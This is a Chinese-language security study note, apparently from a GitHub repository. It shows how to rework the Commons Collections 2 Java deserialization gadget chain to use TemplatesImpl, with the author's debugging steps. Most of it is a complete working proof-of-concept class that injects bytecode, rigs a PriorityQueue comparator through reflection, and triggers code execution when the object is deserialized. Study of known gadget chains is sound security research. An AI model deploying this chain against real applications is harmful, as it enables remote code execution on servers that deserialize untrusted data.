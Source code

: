 # 使用TemplatesImpl改造CommonsCollections2

为什么会有这个主要是看到之前优先级队列那个

看到这里，再结合CC6与Shiro的利用不难想到也可以改造

![](img/2.png)

首先按照[之前写的那篇](https://github.com/Stakcery/JavaSec/blob/main/2.CC%E4%B8%93%E5%8C%BA/CommonsCollections6-Shiro1.2.4/CommonsCollections6-Shiro1.2.4.md)，按照模板套了一下，当然还要改一下，这里用的是`org.apache.commons.collections4.Transformer`而不是

`org.apache.commons.collections.Transformer`

这里也是要改的

```Java
Transformer transformer = new InvokerTransformer("getClass", null, null);
```

为什么呢？

跑一遍试试![](img/3.png)![](img/4.png)

报错说必须是一个可比较对象，这里看看java.lang.Comparable的实现，很明显这个String我们很喜欢，毕竟大多数类都有`toString`方法对吧

![](img/1.png)

改了以后，就解决问题了，但是我们反序列化的时候需要触发`newTransformer`

所以通过反射搞回来就完事了，简单的

## 完整代码

```java
package ysoserial.mytest;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class CommonsCollections2 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz =
            pool.get(test.class.getName());
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

